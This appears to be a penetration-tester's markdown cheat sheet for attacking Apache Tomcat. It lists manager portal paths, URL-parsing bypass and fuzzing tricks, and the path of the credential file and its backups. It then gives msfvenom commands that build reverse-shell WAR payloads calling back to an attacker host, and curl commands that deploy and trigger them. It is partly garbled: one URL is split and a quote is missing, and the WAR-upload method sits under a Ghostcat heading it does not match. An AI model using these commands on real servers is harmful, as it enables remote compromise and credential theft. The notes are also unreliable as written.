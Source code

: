 # Apache Tomcat


## Vulnerabilities and Enumeration

Default password: `metasploit` module auxiliary scanner! 

Administrator portal can host files
`/manager/`
`/manager-gui/`

nginx - tomcat observe url parsing `/..;/`


Fuzzing tomcat `////Admin` or `;/Admin`

Credentials `/var/lib/tomcat9/conf/tomcat-users.xml`, don't forget to check `.bak` or `.backup`
#### Ghostcat

Upload should not necessarily require username and password
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=[IP] LPORT=[PORT] -f war -o shell.war
# OR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=[IP] LPORT=[PORT] -f war -o shell.war
# the FILE.jsp is catable in the .war shell 
curl -u '[USERNAME]:[PASSWORD]' --upload-file shell.war "http://$IP:8080/mana ger/text/deploy?path=/shell"
# Check the file
curl -u '[USERNAME]:[PASSWORD]' "http://$IP:8080/shell/$FILE.jsp
```

[Apache Ghostcat](https://medium.com/@sushantkamble/apache-ghostcat-cve-2020-1938-explanation-and-walkthrough-23a9a1ae4a23)

## References

[Apache Ghostcat](https://medium.com/@sushantkamble/apache-ghostcat-cve-2020-1938-explanation-and-walkthrough-23a9a1ae4a23)